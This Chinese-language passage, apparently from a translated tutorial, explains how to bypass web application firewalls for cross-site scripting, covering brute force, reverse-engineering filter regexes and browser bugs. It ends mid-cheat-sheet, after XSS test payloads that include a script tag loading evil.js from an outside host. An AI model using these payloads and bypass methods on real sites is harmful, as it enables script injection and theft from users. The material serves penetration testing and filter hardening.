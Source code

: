 1)暴力破解  
2)正则逆向  
3)浏览器bug



**3.1.2 暴力破解**

在暴力破解方法中，我们一般会抛出大量的攻击载荷并期望它们能触发，这也是大多数自动化工具和扫描器使用的方式。这种方法对一些过滤器而言可能是有效的，但是在真实环境中却常常会失败，因为自动化扫描器不理解上下文内容，而我们的攻击载荷在不同上下文中也是不同的。



**3.1.3 正则逆向**

这是绕过WAF的最佳方式，之前说过WAF依赖于使用它们数据库中的前面来匹配攻击载荷。这些指纹大多数是以复杂的正则表达式的形式存在，如果攻击载荷匹配了规则库中的正则就会触发WAF，但是如果不匹配则不会触发。使用这种方法，我们需要花点时间来逆向猜测WAF的指纹，一旦知道了WAF的阻塞规则，我们就可以构造不会触发WAF规则的攻击载荷和有效的javascript语法。



**3.1.4 浏览器Bug**

当上面两种方法都没法成功，利用浏览器漏洞则是我们剩下的最后一种办法了，绕过浏览器的关键在于我们要比供应商更加了解浏览器的机制。我们常常会遇到有着完整规则的WAF，使用现代浏览器我们没法绕过黑名单，因此我们将阵地转移至更旧的浏览器版本，看是否有已公布的bug或者能否找到一个0
day。继续尝试，我们可以发现一些浏览器bug，并看看怎样才能用它们绕过WAF。



**4.1 绕过黑名单的方法 – Cheat Sheet**

本节我们会看一下绕过黑名单的方法和方式，同样我还会在本节中谈及暴力破解和逆向正则的方法。



**4.1.1 初始测试**

1)尝试插入无害的HTML载荷如
<b>,<i>,<u>，观察它们是否会被阻塞，http响应是怎样的。是否被html编码了、标签和尖括号是否被过滤了、是否有替换发生。

2)如果开或闭标签被剔除了，尝试插入未闭合的标签(<b,<i,<u,<marquee)。观察是否过滤了开标签、插入的代码表现是否完美。如果表现得很完美，这意味着正则表达式会查找有着开合闭标签的html元素，而不会对开标签进行过滤。

3)接下来试一下99.99%的xss过滤器都会过滤的XSS载荷：

[code]

    <script>alert(1);</script>
    <script>prompt(1);</script>
    <script>confirm (1);</script>
    <script src="http://rhainfosec.com/evil.js">
[/code]

你收到的响应是什么呢，它触犯了403
forbidden页面还是500错误？是否在http响应中完全剔除了整条语句了？或者只是部分剔除了，你还剩下alert、prompt、confrom？如果是这样的话，()是否也被过滤了呢？

接下来，试着注入大小写组合的代码，说不定只有小写会被过滤。

[code]

    <scRiPt>alert(1);</scrIPt>
[/code]

4)假设大小写组合无法绕过过滤器，我们还可以使用嵌套的标签.

[code]
